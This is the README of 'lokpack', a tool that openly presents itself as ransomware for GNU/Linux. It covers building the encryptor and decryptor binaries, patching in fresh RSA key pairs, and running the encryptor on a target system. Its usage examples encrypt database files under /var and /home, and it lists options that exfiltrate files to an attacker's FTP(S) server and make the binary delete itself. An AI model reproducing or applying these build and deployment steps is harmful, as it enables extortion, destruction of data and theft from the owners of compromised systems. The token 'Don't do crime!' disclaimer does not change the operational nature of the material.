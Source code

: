 # lokpack | ransomware tooling for GNU/Linux

lokpack is a free ransomware for modern GNU/Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features

- Build static encryption and decryption tools
- Steal files using a FTP(S) server
- Specify custom target paths and extensions
- Uncrackable encryption with 8192 bit RSA and AES-256
- Fully multi-threaded

## Tested on...

Latest release is automatically tested weekly on the latest Ubuntu LTS using
github actions. I also manually tested the latest release on the following
systems:

- Arch Linux 2025-06-02, x86-64
- Ubuntu 24.04.2 LTS (Noble Numbat), x86-64
- FreeBSD 14.2-RELEASE, i386

If you experience issues on any GNU/Linux system, feel free to create an issue.
This project does not target BSD systems, however if you experience any issues
on popular BSD systems (FreeBSD, NetBSD, OpenBSD etc.) I can try to fix them as
well.

## Installation

### Binary builds

Binary builds (automatically built with github actions) are published for each
release. These releases contain static, cross-compiled built encryptor and
decryptor binaries with a randomly generated RSA key pair.

Each release also contains a simple python(3) patch script, which you can use to
generate a new RSA key pair and replace the pair contained in the binaries:

```bash
# make sure you have pycryptodome installed
python3 patch.py
```

### From the source

#### Setup

- A GNU/Linux system, you may also be able to build on BSD systems
- GCC, GNU make and other GNU build tools
- curl (and headers)
- OpenSSL (and headers)

**If you want to cross-compile the binaries for a different system**, you'll
will need the cross-compilation tools for the target system. **If your distro
does not package cross-compilation tools**, you can build them yourself. After
building them you should specify their paths with environment variables, for
example:

```bash
export CC=/opt/cross/bin/x86_64-linux-gnu-gcc
export LD=/opt/cross/bin/x86_64-linux-gnu-ld
export AS=/opt/cross/bin/x86_64-linux-gnu-as
```

You should also add path of the cross-compilation headers to the include path:

```bash
export C_INCLUDE_PATH=/opt/cross/include
```

**If you want to static binaries**, you will also need static libraries of curl
and OpenSSL. **If your distro does not package these**, you can build them
yourself or use the automated build scripts:

```bash
./scripts/openssl.sh
./scripts/curl.sh
```

#### Build

For a static build (requires static libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -static
```

For a local build (requires shared libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -local
```

Both of these should create the `encryptor` and the `decryptor` binaries at
`dist/`.

You can also build the binaries with an hardcoded key pair, and later patch them
using the `patch.py` script, which is located under the scripts directory:

```bash
make
cd dist && python3 ../scripts/patch.py
```

This also let's you customize different build options:

```bash
make LP_QUEUE_MAX=400
```

You can get a full list of these build options by running `make help`.

## Usage

After transferring `encryptor` to the target system, you can specify custom
options:

```bash
$ ./encryptor --help
[*] Listing available options:
    --threads   => Thread count for the thread pool
    --paths     => Target paths (directories/files)
    --exts      => Target file extensions
    --ftp-url   => Address for the FTP(S) server
    --ftp-user  => FTP(S) username
    --ftp-pwd   => FTP(S) password
    --no-ftp    => Disable stealing files with FTP(S)
    --no-bar    => Disable simple ASCII progress bar
    --destruct  => Self destruct (delete) the program
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home`
without FTP using 100 threads:

```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

If you want to encrypt all files with all extensions, use the `--exts` options
with an empty value, so just `--exts=`.

Decryptor does not have any options, you only need to specify a target directory
or a file to decrypt. For example to decrypt all the encrypted files in `/var`,
you can run:

```bash
./decryptor /var
```

### Setting up FTP(S)

For an actual FTP(S) setup you should install and configure a FTP daemon such as
`vsftpd`. But for testing you can use `pyftpdlib`:

```bash
# username and password are 'anonymous'
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Development

After making any changes to the source code, make sure the format the code and
check for any linting errors (requires a recent version of `clang-format` and
`clang-tidy`):

```bash
make format # fix formatting
make check # check for formatting and linting errors
```

Make sure the fix any reported issues. Also make sure to test the binaries using
the `scripts/test.sh` script (requires `openssl` and `pyftpdlib`):

```bash
make test
```

If you experience any issues, enable the debug messages, compile the binaries
with debug messages. This might help you to quickly spot the issue:

```bash
make LP_DEBUG=1 # uses hardcoded key pair
# or...
./scripts/build.sh -debug # uses random key pair
```

---

Don't do crime!
